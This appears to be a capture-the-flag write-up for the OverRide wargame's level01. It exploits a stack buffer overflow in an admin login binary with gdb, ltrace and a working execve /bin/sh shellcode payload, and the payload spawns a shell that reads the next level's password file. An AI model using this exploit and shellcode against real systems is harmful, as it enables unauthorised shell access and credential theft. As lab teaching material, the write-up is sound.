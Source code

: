 # Level 1

Before us we have a binary which represents an admin login prompt.
First, it asks us for the username which it `fgets` into a global variable called `a_user_name`, and if it matches `dat_wil`, we can input a password that is then checked against "admin". This however is just a silly attempt at trolling from wil.
The password will then be read into a 64 byte buffer with `fgets`, but here fgets will read up to 256 bytes, so we can overflow.

Let's use our trusty [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
```shell
(gdb) r < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
Starting program: /home/users/level01/level01 < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
We now know that we can override EIP 80 characters in.

Now that we know the offset of the overflow we'll need the address of the password buffer in memory. To accomplish this we can check the return value of the second `fgets` within `ltrace`. 
Note: Some form of address randomization is employed here, so the returned address is subject to changes.
```shell
level01@OverRide:~$ ltrace -e 'fgets' ./level01 < <(echo 'dat_wil'; sleep .2; echo 'deeznuts') 1>/dev/null
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                                = 0x0804a040
fgets("deeznuts\n", 100, 0xf7fcfac0)                                                               = 0xffffd6cc
+++ exited (status 1) +++
```

Let's now inject the buffer address after our 28 bytes [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) and 52 bytes of padding.
```shell
level01@OverRide:~$ (echo 'dat_wil'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xcc\xd6\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
[censored]
```
Bingo!
